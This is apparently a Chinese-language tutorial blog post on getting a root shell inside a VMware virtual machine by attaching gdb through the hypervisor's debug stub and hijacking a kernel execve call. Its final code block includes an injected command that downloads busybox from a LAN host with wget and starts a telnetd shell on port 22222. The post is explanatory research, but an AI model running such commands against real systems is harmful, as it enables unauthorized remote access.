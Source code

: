 ## 通过虚拟机调试获取Root Shell

### 参考文章 

https://wzt.ac.cn/2021/05/12/vm_shell/ 一些虚拟机获取 shell 的方法

### 前言

在参考文章中提到一种通过虚拟机调试的方式获取虚拟机root shell。<br>
不过用参考文章中的方法得到root shell时，系统是没有完全初始化的，网络也没有起来，很不方便，于是本文在参考文章的基础上进行了一些改进。<br>

### **如何对虚拟机进行调试**

vmware workstation 提供了虚拟机调试接口，官方文档指出只需要在虚拟机的 vmx 文件中添加以下选项，即可在外部使用 gdb 附加到虚拟机上，从而实现对虚拟机的调试。<br>

```
debugStub.listen.guest64 = "TRUE"
debugStub.listen.guest64.remote = "TRUE"
debugStub.port.guest64 = "12347"
debugStub.listen.guest32 = "TRUE"
debugStub.listen.guest32.remote = "TRUE"
debugStub.port.guest32 = "12348"
```

目标虚拟机是64位系统，就使用debugStub.port.guest64作为gdb远程调试端口。<br>
目标虚拟机是32位系统，就使用debugStub.port.guest32作为gdb远程调试端口。<br>
其他虚拟机软件VirtualBox,Qemu等等应该也有类似的方法进行虚拟机调试，暂未具体研究。<br>
在虚拟机的 vmx 文件中添加选项后，启动虚拟机，待虚拟机完全启动进入系统后，执行gdb命令远程附加。<br>

```
# gdb
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) target remote 0:12347
Remote debugging using 0:12347
warning: No executable has been specified and target does not support
determining executable automatically.  Try using the "file" command.
0xffffffff819b3eae in ?? ()
(gdb)
```

### 获取Root Shell基本思路

在系统运行时，肯定会执行system/exec类函数，底层都是调用系统内核函数。<br>
不管哪个内核exec系统调用都会调用_do_execve_file_isra_45函数。<br>
![image-20230621134851416](./Images/image-20230621134851416.png)<br>
所以我们在内核_do_execve_file_isra_45函数处下断点，断下后更改函数参数，注入我们自己的命令，即可获取Root Shell.<br>

#### 一些技巧

1.定位_do_execve_file_isra_45函数位置<br>
a)有内核elf文件时<br>
一般内核elf文件中是没有符号的，如果有符号就直接可以定位_do_execve_file_isra_45函数位置。<br>
没有符号时，可以通过HOME=/字符串定位run_init_process函数，进而定位_do_execve_file_isra_45函数位置。<br>
![image-20230621140554288](./Images/image-20230621140554288.png)<br>
![image-20230621140609507](./Images/image-20230621140609507.png)<br>
b)无内核elf文件时<br>
暂未研究成功，先搁置。<br>
2.断点技巧<br>
目标是找到一个参数是/bin/sh -c xxx的调用，这样就可以直接修改xxx的值进行命令修改，可以在_do_execve_file_isra_45函数处下条件断点过滤参数。<br>

```
break *0xffffffff811c2fb0 if *(*(long long*)($rsi))==0x6e69622f

Thread 1 hit Breakpoint 1, 0xffffffff811c2fb0 in ?? ()
(gdb) x/6gx $rcx
0x7ffd6c4acf10: 0x00007f3463d22ae9      0x00007f3463d22ae1
0x7ffd6c4acf20: 0x000000000066c0a0      0x0000000000000000
0x7ffd6c4acf30: 0x00007f3464833f82      0x00007ffd6c4acfc0
(gdb) x/s 0x000000000066c0a0
0x66c0a0:       "/usr/bin/lsb_release -sd 2>/dev/null"
(gdb)

修改对应的命令

set {char [113]} 0x000000000066c0a0 = "cd /tmp;/bin/busybox wget http://192.168.248.1:8000/busybox -O telnetd;chmod +x telnetd;./telnetd -p 22222 -l sh"

继续执行即可获取一个root shell
```

#### End
读者有责任遵守其所在国家或地区的所有法律。<br/>
作者不对使用本博客任何文章中提到的任何内容所造成的任何损害负责。<br/>
本博客全部文章遵循 CC-BY-SA-4.0 协议。<br/>
https://creativecommons.org/licenses/by-sa/4.0/<br/><br/>
欢迎关注我的微信公众号！<br/>
![qrcode](Images/qrcode.jpg)